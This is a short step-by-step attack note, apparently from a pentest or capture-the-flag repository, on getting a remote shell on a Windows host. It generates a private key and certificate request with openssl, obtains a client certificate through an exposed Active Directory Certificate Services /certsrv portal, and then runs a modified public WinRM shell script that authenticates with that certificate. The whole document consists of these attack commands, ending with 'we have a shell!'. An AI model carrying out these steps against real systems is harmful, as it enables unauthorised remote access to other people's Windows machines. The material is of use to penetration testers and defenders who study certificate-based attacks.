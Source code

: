 ### REQUIREMENTS: Have access to the /certsrv web portal (You can send a CSR for a certificate)

### STEPS:

#### 1) 

    openssl genrsa -des3 -out TARGET.key 2048 (Create private key)

#### 2) 

    openssl req -new -key TARGET.key -out TARGET.csr (Create Certificate Signing Request)

#### 3) 

    Access the /certsrv portal to request a certificate

#### 4) Click advanced certificate request, copy-paste the .csr file contents and leave everything as is.

#### 5) Download the certificate as Base64 Encoded

#### 6) Use https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb with a few modifications to use our certificates (Replace the username and password variables with :client_cert => 'certnew.cer', and :client_key => 'TARGET.key',

#### 7) 

    rlwrap ruby winrm_shell.rb

#### 8) Congratulations, we have a shell!

